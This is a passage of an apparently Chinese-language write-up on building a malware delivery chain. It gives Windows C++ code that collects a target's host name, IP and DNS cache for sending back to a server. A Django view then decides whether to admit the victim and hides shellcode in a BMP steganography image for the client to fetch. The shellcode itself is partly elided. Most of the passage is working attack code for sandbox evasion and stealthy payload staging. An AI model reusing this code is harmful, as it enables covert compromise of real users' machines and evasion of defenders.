 ```
获取主机名以及对于的IP
    WSADATA wsaData;
    int err = WSAStartup(MAKEWORD(2, 0), &wsaData);

    char szHostName[MAX_PATH] = { 0 };
    int nRetCode;
    nRetCode = gethostname(szHostName, sizeof(szHostName));

    char* lpLocalIP;
    PHOSTENT hostinfo;

    hostinfo = gethostbyname(szHostName);
    lpLocalIP = inet_ntoa(*(struct in_addr*)*hostinfo->h_addr_list);
获取本地DNS缓存记录
std::vector<CachedDnsRecord> getDnsCache()
{
    std::vector<CachedDnsRecord> results;

    PDNSCACHEENTRY pEntry = (PDNSCACHEENTRY)malloc(sizeof(DNSCACHEENTRY));
    HINSTANCE hLib = LoadLibrary(TEXT("DNSAPI.dll"));
    DNS_GET_CACHE_DATA_TABLE DnsGetCacheDataTable =
       (DNS_GET_CACHE_DATA_TABLE)GetProcAddress(hLib, "DnsGetCacheDataTable");

    int stat = DnsGetCacheDataTable(pEntry);
    pEntry = pEntry->pNext;
    while (pEntry)
    {
       CachedDnsRecord record;
       record.name = wstring(pEntry->pszName);
       //wprintf(L"%s|", record.name.c_str());

       record.type = pEntry->wType;
       results.push_back(record);
       pEntry = pEntry->pNext;
    }
    free(pEntry);
    return results;
}
```

3.对回传回来主机名，dns记录，ip解密的数据进行判断，根据信息判断是否允许上线，允许上线则用生成一个图片隐写马，等待客户端请求返回解析出来shelllcode server端处理代码

```
# 判断生成图片
class TaskShow(View):

  @csrf_exempt
  def post(self, request, **kwargs):
    taskid = (request.POST['taskid'])
    obj = models.Message.objects.get(id=taskid)
    shellcode = "fce88900000060xxxxxxx"  #shellcode 
    cmd = "SimpleShellcode.exe {shellcode}".format(shellcode=shellcode)
    proc = subprocess.Popen(cmd,
                            shell=True,
                            stdout=subprocess.PIPE,
                            stderr=subprocess.STDOUT)
    print(proc.stdout.readline())
    pathfile = (str(obj.UUIDreuslt) + ".bmp")
    time.sleep(5)
    os.rename("save.bmp", pathfile)
    filedir = os.path.join(os.getcwd(), 'images', pathfile)
    shutil.move(pathfile, filedir)
    models.Message.objects.filter(id=taskid).update(gogogo=shellcode)

```